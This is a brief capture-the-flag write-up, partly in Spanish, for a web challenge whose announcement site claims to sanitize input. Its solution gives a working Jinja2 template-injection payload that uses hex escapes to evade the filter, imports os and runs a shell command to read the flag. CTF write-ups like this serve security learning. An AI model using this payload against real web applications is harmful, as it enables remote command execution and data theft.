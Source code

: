 I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.

----------
#Solución 
Al correr la instancia solo puse 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
y te carga la bandera




-----
#Notas 
#referencias 